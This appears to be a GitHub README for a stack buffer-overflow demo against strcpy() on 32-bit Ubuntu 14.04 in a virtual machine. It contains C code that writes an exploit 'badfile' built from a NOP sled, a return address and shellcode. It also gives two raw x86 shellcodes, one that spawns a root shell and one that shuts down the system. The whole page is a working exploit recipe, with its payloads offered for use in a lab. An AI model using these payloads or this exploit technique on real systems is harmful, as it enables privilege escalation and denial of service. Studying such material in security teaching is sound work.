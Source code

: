 # Buffer-Overflow-attacks

int main(){
	FILE* badf;
	badf = fopen("badfile","w");
	char buff[517];
	for(int i=0;i<517;i++)
		buff[i] = nop[0];
	int ind = 0;	
	for(;ind<24;){
		buff[ind++] = 'd';
	}
	for(int i=0;i<strlen(ret_addr);i++){
		buff[ind++] = ret_addr[i];
	}
	ind += 64;
	//for(int i=0;i<strlen(shutdown_shellcode);i++){
	//	buff[ind++] = shutdown_shellcode[i];
	//}
	for(int i=0;i<strlen(root_shell);i++){
		buff[ind++] = root_shell[i];
	}
	buff[ind] = '\0';
	fwrite(buff,517,1,badf);
	return 0;
}

In this demo I walk through the process of using a buffer overflow vulnerability in the C++ strcpy() function to both spawn a root shell and shut down the system. For this demo I am using 32-bit Linux Ubuntu 14.04 in Virtual Box. My system is Little Endian (as is the case with most, if not all, Intel CPU's from what I understand). 

Applications used: g++, perl, gdb

**Notes**

A quick way to find the endianess of your system:

https://github.com/asanchez1103/Code-...​

While filming, I forgot that $rsp is the stack pointer on a 64-bit system

Shell codes were obtained from: http://shell-storm.org/shellcode/​

Spawn Root Shell shellcode:
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh


Shutdown shellcode 
-http://shell-storm.org/shellcode/file...​
\x31\xc0\x31\xd2\x50\x66\x68\x2d\x68\x89\xe7\x50\x6a\x6e\x66\xc7\x44\x24\x01\x6f\x77\x89\xe7\x50\x68\x64\x6f\x77\x6e\x68\x73\x68\x75\x74\x68\x6e\x2f\x2f\x2f\x68\x2f\x73\x62\x69\x89\xe3\x52\x56\x57\x53\x89\xe1\xb0\x0b\xcd\x80

